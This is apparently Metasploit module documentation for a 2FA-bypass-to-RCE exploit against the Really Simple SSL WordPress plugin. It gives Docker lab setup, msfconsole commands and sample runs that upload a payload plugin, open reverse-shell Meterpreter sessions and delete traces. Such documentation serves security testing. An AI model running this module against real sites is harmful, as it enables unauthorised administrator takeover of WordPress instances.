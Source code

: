 ## Vulnerable Application

The vulnerability affects the **Really Simple SSL** plugin, version **9.1.1** and below, allowing an **authentication bypass** attack.
This can be leveraged to bypass 2FA with specified `user_id` and gain full control of the WordPress instance.

### Pre-requisites:
- **Docker** and **Docker Compose** installed on your system.


### Setup Instructions

1. **Download the Docker Compose file**:
   Below is the content of the **docker-compose.yml** file to set up WordPress with the vulnerable plugin and a MySQL database.

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

2. **Add custom PHP configuration**:
    - Create a file named `custom.ini` in the same directory as `docker-compose.yml` with the following content:

```ini
upload_max_filesize = 64M
post_max_size = 64M
```

3. **Start the Docker environment**:
- In the directory where you saved the `docker-compose.yml` file, run the following command to start the services:

```bash
docker-compose up -d
```

4. **Install and activate the plugin**:
- Download the vulnerable version of **Really Simple SSL**:
```bash
wget https://downloads.wordpress.org/plugin/really-simple-ssl.9.1.1.zip
```
- Extract the plugin:
```bash
unzip really-simple-ssl.9.1.1.zip
```
- Copy the plugin files to the WordPress container:
```bash
docker cp really-simple-ssl wordpress:/var/www/html/wp-content/plugins/
```
- Navigate to `http://localhost:5555/wp-admin` in your browser and activate the plugin in the WordPress admin panel.

5. **Enable Two-Factor Authentication**:
- Go to **Settings > Really Simple Security**.
- Activate **Two-Factor Authentication**.


## Verification Steps

1. **Set up WordPress** with the vulnerable **Really Simple SSL** plugin.
2. **Start Metasploit** using the command `msfconsole`.
3. Use the correct module for the vulnerability:

```bash
use exploit/multi/http/wp_reallysimplessl_2fa_bypass_rce
```

4. Set the target's IP and URI:

```bash
set RHOSTS <target_ip>
set TARGETURI /
```

5. **Run the module**:

```bash
run
```

6. **Verify the Authentication Bypass**:
- After running the module, the payload will bypass Two-Factor Authentication and attempt to create a new administrator.

## Options

### USERID

The user ID to target for 2FA bypass (default: 1)

## Scenarios

### Example 1: PHP Meterpreter (ARCH_PHP)

```bash
msf exploit(multi/http/wp_reallysimplessl_2fa_bypass_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected vulnerable plugin slug: really-simple-ssl
[+] The target appears to be vulnerable. Plugin really-simple-ssl appears to be vulnerable.
[*] 2FA bypass successful. Uploading plugin...
[*] Executing the payload at /wp-content/plugins/wp_1ftvf/ajax_pottw.php...
[*] Sending stage (40004 bytes) to 172.18.0.3
[+] Deleted ajax_pottw.php
[+] Deleted wp_1ftvf.php
[+] Deleted ../wp_1ftvf
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 172.18.0.3:37730) at 2024-11-18 20:07:17 +0100

meterpreter > sysinfo 
Computer    : a8dddfbbb9e2
OS          : Linux a8dddfbbb9e2 5.15.0-125-generic #135-Ubuntu SMP Fri Sep 27 13:53:58 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter >
```

### Example 2: Linux Command Shell (ARCH_CMD)

```bash
msf exploit(multi/http/wp_reallysimplessl_2fa_bypass_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected vulnerable plugin slug: really-simple-ssl
[+] The target appears to be vulnerable. Plugin really-simple-ssl appears to be vulnerable.
[*] 2FA bypass successful. Uploading plugin...
[*] Executing the payload at /wp-content/plugins/wp_3wbfa/ajax_gjreh.php...
[*] Sending stage (3045380 bytes) to 172.18.0.3
[+] Deleted ajax_gjreh.php
[+] Deleted wp_3wbfa.php
[+] Deleted ../wp_3wbfa
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 172.18.0.3:50344) at 2024-11-18 20:12:00 +0100

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 11.8 (Linux 5.15.0-125-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
